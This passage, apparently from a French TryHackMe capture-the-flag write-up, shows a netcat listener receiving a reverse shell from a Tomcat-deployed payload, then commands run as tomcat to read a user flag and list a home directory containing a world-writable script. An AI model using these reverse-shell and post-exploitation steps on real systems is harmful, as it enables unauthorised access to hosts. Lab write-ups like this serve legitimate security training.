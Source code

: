 ```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour établir une connexion avec le reverse shell.  

```bash
 /shell None specified   true 0  Start  Stop
   Reload
```

On clique sur le lien du shell dans la page ou on a déployé le shell.

```bash
im@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.124.176] 58154
whoami
tomcat
pwd
/
cd home
ls
jack
cd jack	
cat user.txt
39400c90bc683a41a8935e4719f181bf
```

Une fois la connexion établie on est sur l'utilisateur tomcat et nous pouvons récupérer notre premier flag.  
Réponse : 39400c90bc683a41a8935e4719f181bf 

```bash
ls -al
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jul 18 01:48 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
```

cat id.sh
#!/bin/bash
id > test.txt
